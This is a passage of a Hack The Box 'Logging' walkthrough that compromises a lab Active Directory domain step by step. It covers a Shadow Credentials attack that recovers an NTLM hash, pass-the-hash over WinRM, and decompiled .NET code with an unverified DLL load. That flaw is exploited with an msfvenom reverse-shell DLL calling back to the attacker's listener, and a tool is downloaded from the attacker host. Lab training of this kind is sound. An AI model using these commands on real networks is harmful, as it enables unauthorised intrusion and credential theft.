Given the seven-hour clock skew reported by `Nmap`, `Kerberos` authentication would fail without first synchronizing our local clock with the target. We stopped any running time synchronization services and used `net time` to sync against the Domain Controller.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
[sudo] password for kali:
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.30.63
```

### Active Directory Enumeration

With valid credentials for `svc_recovery` we collected `BloodHound` data to map the full `Active Directory` environment and identify further escalation paths.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ netexec ldap 10.129.30.63 -u 'wallace.everette' -p 'Welcome2026@' --bloodhound --dns-tcp --dns-server 10.129.30.63 -c all
LDAP        10.129.30.63    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:logging.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.30.63    389    DC01             [+] logging.htb\wallace.everette:Welcome2026@ 
LDAP        10.129.30.63    389    DC01             Resolved collection methods: rdp, container, localadmin, group, objectprops, dcom, psremote, trusts, acl, session
LDAP        10.129.30.63    389    DC01             Done in 0M 6S
LDAP        10.129.30.63    389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.30.63_2026-04-18_213724_bloodhound.zip
```

Reviewing the `Outbound Object Control` for `svc_recovery` in `BloodHound` revealed that this account held a `GenericWrite` `Access Control Entry` (`ACE`) over `msa_health$` — a Group Managed Service Account (`gMSA`). The `GenericWrite` right allows writing to most non-protected attributes on the target object, which is the prerequisite for a `Shadow Credentials Attack`.



## Privilege Escalation (MSA_HEALTH$)

### Access Control Entry (ACE) GenericWrite Abuse

#### Shadow Credentials Attack

The `Shadow Credentials Attack` is a technique that abuses write access to the `msDS-KeyCredentialLink` attribute of a target `Active Directory` object. This attribute stores `Windows Hello for Business` (`WHfB`) and `PKINIT` key credential entries — essentially public key material that the `Key Distribution Center` (`KDC`) can use to authenticate the account without a password. When an attacker with `GenericWrite` over a target account injects their own `RSA` key pair into this attribute via `bloodyAD`, they gain the ability to perform `PKINIT` pre-authentication using the corresponding certificate, effectively impersonating the account. The `KDC` issues a `TGT` via `PKINIT`, and since the account is a `gMSA`, the `NTLM` hash can also be recovered from the `PKINIT` authentication session using `Certipy`'s `auth` subcommand. This attack is particularly effective against service accounts and `gMSAs` because they cannot interactively log in to notice the attribute change, and password-based lockouts do not apply.

We started by generating a `krb5.conf` file for `Kerberos` connectivity and obtaining a `TGT` for `svc_recovery`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ netexec smb 10.129.30.63 -u 'wallace.everette' -p 'Welcome2026@' --generate-krb5-file ./krb5.conf                        
SMB         10.129.30.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.30.63    445    DC01             [+] krb5 conf saved to: ./krb5.conf
SMB         10.129.30.63    445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=./krb5.conf
SMB         10.129.30.63    445    DC01             [+] logging.htb\wallace.everette:Welcome2026@
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ export KRB5_CONFIG=./krb5.conf
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ impacket-getTGT logging.htb/svc_recovery:'Em3rg3ncyPa$$2026'                    
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_recovery.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ export KRB5CCNAME=svc_recovery.ccache
```

With the `TGT` loaded, `bloodyAD` was used to inject a new `RSA` key credential into the `msDS-KeyCredentialLink` attribute of `msa_health$`, generating a certificate and private key pair.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ bloodyAD -d logging.htb -u svc_recovery -k ccache=svc_recovery.ccache --host dc01.logging.htb --dc-ip 10.129.30.63 add shadowCredentials 'msa_health$'
[+] KeyCredential generated with following sha256 of RSA key: 3d9549c49480461594a4bb2af7aaf721a879e40bd2c80464e15688ee06ade598
No outfile path was provided. The certificate(s) will be stored with the filename: tSWoBx9p
[+] Saved PEM certificate at path: tSWoBx9p_cert.pem
[+] Saved PEM private key at path: tSWoBx9p_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem tSWoBx9p_cert.pem -key-pem tSWoBx9p_priv.pem logging.htb/msa_health$ tSWoBx9p.ccache
```

The `PEM` certificate and private key were converted to a `PFX` for use with `Certipy`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ openssl pkcs12 -export -in tSWoBx9p_cert.pem -inkey tSWoBx9p_priv.pem -out tSWoBx9p.pfx -passout pass:
```

`Certipy` performed `PKINIT` authentication with the injected key credential and recovered the `NTLM` hash for `msa_health$`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ certipy-ad auth -pfx tSWoBx9p.pfx -dc-ip 10.129.30.63 -domain logging.htb -username 'msa_health$'     
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'msa_health$@logging.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'msa_health.ccache'
[*] Wrote credential cache to 'msa_health.ccache'
[*] Trying to retrieve NT hash for 'msa_health$'
[*] Got hash for 'msa_health$@logging.htb': aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5
```

A `TGT` was obtained using the recovered `NTLM` hash and used to authenticate over `WinRM` via `Pass-the-Hash`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ impacket-getTGT logging.htb/msa_health$ -hashes :603fc24ee01a9409f83c9d1d701485c5                
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in msa_health$.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ export KRB5CCNAME=msa_health\$.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ evil-winrm -i logging.htb -u 'msa_health$' -H 603fc24ee01a9409f83c9d1d701485c5       
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\msa_health$\Documents> 
```

## Enumeration (msa_health$)

Checking identity and privileges confirmed the account's membership in `BUILTIN\Certificate Service DCOM Access`, which would become relevant later.

```cmd
*Evil-WinRM* PS C:\Users\msa_health$\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
logging\msa_health$ S-1-5-21-4020823815-2796529489-1682170552-2113


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
logging\Domain Computers                    Group            S-1-5-21-4020823815-2796529489-1682170552-515 Mandatory group, Enabled by default, Enabled group
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

The home directory contained a `monitor.ps1` script that uses `COM` automation to query the status of a scheduled task named `UpdateChecker Agent` and log its state to `C:\Share\Logs\TaskMonitor.log`. This hinted at the existence of a monitoring workflow tied to a scheduled task.

```cmd
*Evil-WinRM* PS C:\Users\msa_health$\Documents> ls


    Directory: C:\Users\msa_health$\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/17/2026   9:02 AM           1059 monitor.ps1


*Evil-WinRM* PS C:\Users\msa_health$\Documents> type monitor.ps1
<#
.SYNOPSIS
    Monitors the status of the "UpdateChecker Agent" scheduled task.
    Uses COM interface to avoid CIM/WMI permission issues.
#>

$TaskName = "UpdateChecker Agent"
$LogPath = "C:\Share\Logs\TaskMonitor.log"
$Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"

try {
    $service = New-Object -ComObject "Schedule.Service"
    $service.Connect()
    $task = $service.GetFolder("\").GetTask($TaskName)

    $State = switch ($task.State) {
        1 { "Disabled" }
        2 { "Queued" }
        3 { "Ready" }
        4 { "Running" }
        5 { "Disabled" }
        6 { "Unknown" }
        default { "Unknown" }
    }

    if ($State -ne "Ready" -and $State -ne "Running") {
        $Message = "[$Timestamp] WARN  - Task [$TaskName] is in an unexpected state: $State"
    }
    else {
        $Message = "[$Timestamp] INFO  - Task [$TaskName] health check: OK (State: $State)"
    }
}
catch {
    $Message = "[$Timestamp] ERROR - Failed to query task [$TaskName]. Exception: $($_.Exception.Message)"
}

Add-Content -Path $LogPath -Value $Message
```

Browsing `C:\Program Files` revealed an `UpdateMonitor` application directory that was not a standard `Windows` installation.

```cmd
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/10/2020  11:34 AM                Common Files
d-----        4/16/2026   8:19 AM                internet explorer
d-----        4/16/2026   5:26 PM                Update Services
d-----        4/16/2026   4:10 PM                UpdateMonitor
d-----        4/16/2026   6:40 PM                VMware
d-r---        8/24/2021   7:47 AM                Windows Defender
d-----        4/16/2026   8:19 AM                Windows Defender Advanced Threat Protection
d-----        8/24/2021   7:47 AM                Windows Mail
d-----        4/16/2026   8:19 AM                Windows Media Player
d-----        4/16/2026   8:19 AM                Windows Multimedia Platform
d-----        9/15/2018  12:28 AM                windows nt
d-----        8/24/2021   7:47 AM                Windows Photo Viewer
d-----        4/16/2026   8:19 AM                Windows Portable Devices
d-----        9/15/2018  12:19 AM                Windows Security
d-----        9/15/2018  12:19 AM                WindowsPowerShell
```

The `UpdateMonitor` directory contained a `.NET` executable, a configuration file, and a `packages` subdirectory referencing `System.IO.Compression.ZipFile`. The binary was downloaded for reverse engineering.

```cmd
*Evil-WinRM* PS C:\Program Files\UpdateMonitor> dir


    Directory: C:\Program Files\UpdateMonitor


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/16/2026   4:10 PM                bin
d-----        4/16/2026   4:10 PM                packages
-a----        2/21/2026   3:52 PM            189 App.config
-a----        2/21/2026   3:52 PM            157 packages.config
-a----         4/9/2026  10:31 PM           8192 UpdateMonitor.exe
```

```shell
*Evil-WinRM* PS C:\Program Files\UpdateMonitor> download UpdateMonitor.exe
                                        
Info: Downloading C:\Program Files\UpdateMonitor\UpdateMonitor.exe to UpdateMonitor.exe
                                        
Info: Download successful!
```

```shell
*Evil-WinRM* PS C:\Program Files\UpdateMonitor\packages> ls


    Directory: C:\Program Files\UpdateMonitor\packages


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/16/2026   4:10 PM                System.IO.Compression.ZipFile.4.3.0
```

## Reverse Engineering UpdateMonitor.exe

`UpdateMonitor.exe` is a `.NET` application that was decompiled using `dnSpy`. The full decompiled source of the `Program` class reveals a structured update mechanism that is vulnerable to `DLL Hijacking`.

The disassembled `Main` method shows the application operating as follows: it defines a fixed log path, a fixed `ZIP` archive path at `C:\ProgramData\UpdateMonitor\Settings_Update.zip`, and a fixed extraction target at `C:\Program Files\UpdateMonitor\bin\`. If the `ZIP` archive exists at the expected path, the application extracts it directly into the `bin\` directory, effectively dropping whatever is in the archive — including a `DLL` named `settings_update.dll`. It then unconditionally calls `LoadLibrary` on that `DLL` path and resolves a `PreUpdateCheck` export, calling it if present.

```cs
using System;
using System.IO;
using System.IO.Compression;
using System.Linq;
using System.Runtime.InteropServices;

namespace UpdateMonitor
{
    // Token: 0x02000002 RID: 2
    internal class Program
    {
        // Token: 0x06000001 RID: 1
        [DllImport("kernel32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
        private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);

        // Token: 0x06000002 RID: 2
        [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]
        private static extern IntPtr GetProcAddress(IntPtr hModule, string procedureName);

        // Token: 0x06000003 RID: 3
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool FreeLibrary(IntPtr hModule);

        // Token: 0x06000004 RID: 4 RVA: 0x00002050 File Offset: 0x00000250
        private static void Main(string[] args)
        {
            string text = "C:\\ProgramData\\UpdateMonitor\\Logs\\monitor.log";
            string text2 = "C:\\ProgramData\\UpdateMonitor\\Settings_Update.zip";
            string text3 = "C:\\Program Files\\UpdateMonitor\\bin\\";
            string text4 = "settings_update.dll";
            string text5 = Path.Combine(text3, text4);
            Directory.CreateDirectory(Path.GetDirectoryName(text));
            Program.CleanupLogs(text, 90);
            Program.Log(text, "Starting Sentinel Update Check...");
            Program.Log(text, "Checking for update on core server...");
            Program.Log(text, "Info: Core did not find file Settings_Update.zip");
            Program.Log(text, "Last status: File not found on core");
            Program.Log(text, "Checking for update on local server...");
            if (File.Exists(text2))
            {
                try
                {
                    if (File.Exists(text5))
                    {
                        File.Delete(text5);
                    }
                    ZipFile.ExtractToDirectory(text2, text3);
                    Program.Log(text, "Successfully unzipped update to " + text3);
                    goto IL_DF;
                }
                catch (IOException ex)
                {
                    Program.Log(text, "Update failed: " + ex.Message);
                    goto IL_DF;
                }
                catch (Exception ex2)
                {
                    Program.Log(text, "Update failed: " + ex2.Message);
                    goto IL_DF;
                }
            }
            Program.Log(text, "No updates found locally: C:\\ProgramData\\UpdateMonitor\\Settings_Update.zip.");
            IL_DF:
            Program.Log(text, "Loading update applier: " + text5);
            IntPtr intPtr = Program.LoadLibrary(text5);
            if (intPtr == IntPtr.Zero)
            {
                int lastWin32Error = Marshal.GetLastWin32Error();
                Program.Log(text, string.Format("Failed to load {0}. Error code: {1}", text4, lastWin32Error));
                Program.Log(text, "Update check completed.");
                return;
            }
            try
            {
                IntPtr procAddress = Program.GetProcAddress(intPtr, "PreUpdateCheck");
                if (procAddress != IntPtr.Zero)
                {
                    Program.Log(text, "Calling 'PreUpdateCheck' in " + text4);
                    ((Program.PreUpdateCheck)Marshal.GetDelegateForFunctionPointer(procAddress, typeof(Program.PreUpdateCheck)))();
                }
                else
                {
                    Program.Log(text, "'PreUpdateCheck' not found in " + text4 + ". Continuing...");
                }
            }
            finally
            {
                Program.FreeLibrary(intPtr);
            }
            Program.Log(text, "Update check completed.");
        }

        // Token: 0x06000005 RID: 5 RVA: 0x00002230 File Offset: 0x00000430
        private static void CleanupLogs(string path, int maxLines)
        {
            try
            {
                FileInfo fileInfo = new FileInfo(path);
                if (fileInfo.Exists && fileInfo.Length >= 102400L)
                {
                    string[] array = File.ReadAllLines(path);
                    if (array.Length > maxLines)
                    {
                        string[] array2 = array.Take(maxLines).ToArray<string>();
                        File.WriteAllLines(path, array2);
                    }
                }
            }
            catch
            {
            }
        }

        // Token: 0x06000006 RID: 6 RVA: 0x00002294 File Offset: 0x00000494
        private static void Log(string path, string message)
        {
            string text = string.Format("[{0:yyyy-MM-dd HH:mm:ss}] {1}{2}", DateTime.Now, message, Environment.NewLine);
            Console.Write(text);
            try
            {
                File.AppendAllText(path, text);
            }
            catch
            {
            }
        }

        // Token: 0x02000003 RID: 3
        // (Invoke) Token: 0x06000009 RID: 9
        private delegate void PreUpdateCheck();
    }
}
```

The critical paths in the binary are highlighted below. First, the target `DLL` path is fully hardcoded — `settings_update.dll` inside a writable `bin\` directory.

```cs
string text3 = "C:\\Program Files\\UpdateMonitor\\bin\\";
string text4 = "settings_update.dll";
string text5 = Path.Combine(text3, text4);
```

Second, if `Settings_Update.zip` exists at the expected `ProgramData` path, its contents are extracted into `bin\` without any signature or integrity verification, allowing a completely arbitrary `DLL` to be planted.

```cs
string text2 = "C:\\ProgramData\\UpdateMonitor\\Settings_Update.zip";
if (File.Exists(text2))
{
    ZipFile.ExtractToDirectory(text2, text3);
}
```

Third, the resulting `DLL` is loaded unconditionally via `LoadLibrary`, regardless of whether it was just extracted or was already present.

```cs
IntPtr intPtr = Program.LoadLibrary(text5);
```

Finally, if a `PreUpdateCheck` export is found, it is called immediately, giving a clean code execution entry point.

```cs
IntPtr procAddress = Program.GetProcAddress(intPtr, "PreUpdateCheck");
((Program.PreUpdateCheck)Marshal.GetDelegateForFunctionPointer(procAddress, typeof(Program.PreUpdateCheck)))();
```



## Privilege Escalation to JAYLEE.CLIFTON

### DLL Hijacking

`DLL Hijacking` in this context exploits the fact that `UpdateMonitor.exe` loads `settings_update.dll` from a directory path controlled by a lower-privileged account without performing any validation of the `DLL`'s contents or origin. Since `msa_health$` has write access to `C:\ProgramData\UpdateMonitor\` and the application extracts a user-supplied `ZIP` into the `bin\` directory, an attacker can place a malicious `DLL` inside the archive and have the scheduled task — running as `JAYLEE.CLIFTON` — load and execute it on the next invocation.

A reverse shell `DLL` was generated with `msfvenom` and packaged into the expected `ZIP` archive.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o settings_update.dll
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: settings_update.dll
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ zip Settings_Update.zip settings_update.dll                                                     
  adding: settings_update.dll (deflated 82%)
```

A `Metasploit` handler was started to catch the incoming connection.

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Search can apply complex filters such as search cve:2009 
type:exploit, see all the filters with help search
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.4.112-dev                               ]
+ -- --=[ 2,607 exploits - 1,325 auxiliary - 1,710 payloads     ]
+ -- --=[ 430 post - 49 encoders - 14 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.10:4444
```

The `ZIP` archive was uploaded to the `ProgramData` path expected by the application.

```shell
*Evil-WinRM* PS C:\ProgramData\UpdateMonitor> upload Settings_Update.zip
                                        
Info: Uploading /mnt/cybersecurity/notes/HTB/Machines/Logging/files/Settings_Update.zip to C:\ProgramData\UpdateMonitor\Settings_Update.zip
                                        
Data: 2712 bytes of 2712 bytes copied
                                        
Info: Upload successful!

```

When the `UpdateChecker Agent` scheduled task next fired, `UpdateMonitor.exe` extracted the `DLL`, loaded it, and the reverse shell connected back to our listener as `JAYLEE.CLIFTON`.

```shell
[*] Command shell session 1 opened (10.10.16.10:4444 -> 10.129.30.63:62732) at 2026-04-19 05:44:20 +0200                                                                                  
Shell Banner:
Microsoft Windows [Version 10.0.17763.8644]                                                           
-----                                                                            


C:\Windows\system32>
```

## user.txt

```shell
C:\Users\jaylee.clifton\Desktop>type user.txt
type user.txt
41556755089fcd3bdd25594e846b9daf
```

## Enumeration (JAYLEE.CLIFTON)

Checking identity confirmed `JAYLEE.CLIFTON` was a member of the `logging\IT` group — the same group that had enrollment rights on the `UpdateSrv` certificate template spotted earlier in the `Certify` output.

```shell
C:\Users\jaylee.clifton\Documents>whoami /all 
whoami /all

USER INFORMATION
----------------

User Name              SID                                           
====================== ==============================================
logging\jaylee.clifton S-1-5-21-4020823815-2796529489-1682170552-2105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes                                        
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users               Alias            S-1-5-32-559                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                          Well-known group S-1-5-3                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                               Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                       Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
logging\IT                                  Group            S-1-5-21-4020823815-2796529489-1682170552-2102 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

ERROR: Unable to get user claims information.
```

The user's `Documents` folder contained a `Tickets` directory with a single `HTML` file.

```shell
C:\Users\jaylee.clifton\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C007-7498

 Directory of C:\Users\jaylee.clifton\Documents

04/16/2026  07:26 PM    <DIR>          .
04/16/2026  07:26 PM    <DIR>          ..
04/16/2026  07:27 PM    <DIR>          Tickets
               0 File(s)              0 bytes
               3 Dir(s)   4,269,215,744 bytes free
```

```shell
C:\Users\jaylee.clifton\Documents\Tickets>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C007-7498

 Directory of C:\Users\jaylee.clifton\Documents\Tickets

04/16/2026  07:27 PM    <DIR>          .
04/16/2026  07:27 PM    <DIR>          ..
04/16/2026  07:27 PM             2,453 Incident_4922_WSUS_Remediation_ViewExport.html
               1 File(s)          2,453 bytes
               2 Dir(s)   4,269,215,744 bytes free
```

The support ticket documented an unofficial `WSUS` workaround where the machine had been pointed to `wsus.logging.htb` as its update server due to issues with the standard catalog. The ticket also noted a scheduled `ForceSync` task running every 120 seconds.

```shell
C:\Users\jaylee.clifton\Documents\Tickets>type Incident_4922_WSUS_Remediation_ViewExport.html
type Incident_4922_WSUS_Remediation_ViewExport.html
<!DOCTYPE html>
<html>
<head>
<style>
    body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; font-size: 12px; color: #444; line-height: 1.5; background-color: #fff; }
    .container { max-width: 600px; border: 1px solid #ccc; box-shadow: 2px 2px 5px #eee; }
    .header { background: #005a9e; color: white; padding: 12px; font-weight: bold; font-size: 14px; }
    .meta-data { background: #f9f9f9; padding: 10px; border-bottom: 1px solid #ddd; display: grid; grid-template-columns: 80px 1fr; gap: 5px; }
    .label { font-weight: 600; color: #666; }
    .entry { padding: 15px; border-bottom: 1px dashed #eee; }
    .timestamp { font-weight: bold; color: #d9534f; margin-right: 10px; }
    .status { color: #28a745; font-weight: bold; }
</style>
</head>
<body>

<div class="container">
    <div class="header">Support Incident View: #4922</div>
    
    <div class="meta-data">
        <span class="label">Assigned:</span> <span>jaylee.clifton [SR_SYSADMIN]</span>
        <span class="label">Status:</span> <span class="status">CLOSED - WORKAROUND APPLIED</span>
        <span class="label">Priority:</span> <span>Urgent (Compliance)</span>
    </div>

    <div class="entry">
        <span class="timestamp">2026-04-06 09:45</span> <strong>Internal Note:</strong><br>
        Machine is still choking on the standard catalog. BITS service is garbage and I'm not wasting another morning troubleshooting the local database. Since the "official" server migration is apparently taking forever, I've pointed this box to the staging endpoint at <strong>wsus.logging.htb</strong>.
    </div>

    <div class="entry">
        <span class="timestamp">2026-04-06 13:20</span> <strong>Internal Note:</strong><br>
        DNS is still not updated�standard for this department�so don't bother pinging it from outside the test subnet. I've set up a scheduled "ForceSync" task to deal with the inevitable lockups. 
    </div>

    <div class="entry" style="background-color: #fff9db;">
        <span class="timestamp">2026-04-06 16:10</span> <strong>Final Resolution:</strong><br>
        Task is running on a 120s loop. It nukes SoftwareDistribution and restarts the agent every cycle. It�s a hack, but it works and it keeps the compliance auditors off my back. <strong>Do not touch the trigger settings.</strong> If the services don't come back up, that's your problem.
    </div>
</div>

</body>
</html>
```



`BloodHound` confirmed `JAYLEE.CLIFTON`'s membership in the `IT` group and no direct privileged group memberships otherwise.



`Certify` was used to enumerate all certificate templates published by the `AD CS` installation.

- [https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x86/Certify.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x86/Certify.exe)
```shell
PS C:\Users\jaylee.clifton\Documents\Tickets> iwr 10.10.16.10/Certify.exe -o Certify.exe
iwr 10.10.16.10/Certify.exe -o Certify.exe
```

The full template enumeration output is included below. The `UpdateSrv` template at the end of the listing was the significant finding — it was enabled, had a `10`-year validity, used `ENROLLEE_SUPPLIES_SUBJECT` (meaning the requester controls the `Subject Alternative Name`), and granted enrollment rights to the `logging\IT` group, of which `JAYLEE.CLIFTON` was a member. Its `Extended Key Usage` was `Server Authentication` only, which is the key ingredient for `ESC17`.

```shell
PS C:\Users\jaylee.clifton\Documents\Tickets> .\Certify.exe enum-templates
.\Certify.exe enum-templates

   _____          _   _  __          
  / ____|        | | (_)/ _|         
 | |     ___ _ __| |_ _| |_ _   _    
 | |    / _ \ '__| __| |  _| | | |   
 | |___|  __/ |  | |_| | | | |_| |   
  \_____\___|_|   \__|_|_|  \__, |   
                             __/ |   
                            |___./   
  v2.0.0                         

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=logging,DC=htb'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.
[X] AuthWithChannelBinding HTTP request for URL 'https://DC01.logging.htb/certsrv/' failed with error: An error occurred while sending the request.

[*] Listing info about the enterprise certificate authority 'logging-DC01-CA'

    Enterprise CA Name            : logging-DC01-CA
    DNS Hostname                  : DC01.logging.htb
    FullName                      : DC01.logging.htb\logging-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=logging-DC01-CA, DC=logging, DC=htb
    Cert Thumbprint               : 2DF3A80A22B1C559D4CD9A7815766707756E44FD
    Cert Serial                   : 196621CCC95B9C904E63B58E449ABC04
    Cert Start Date               : 4/16/2026 8:20:00 PM
    Cert End Date                 : 4/16/2126 8:30:00 PM
    Cert Chain                    : CN=logging-DC01-CA,DC=logging,DC=htb
    User Specifies SAN            : Disabled
    RPC Request Encryption        : Enabled
    CA Permissions
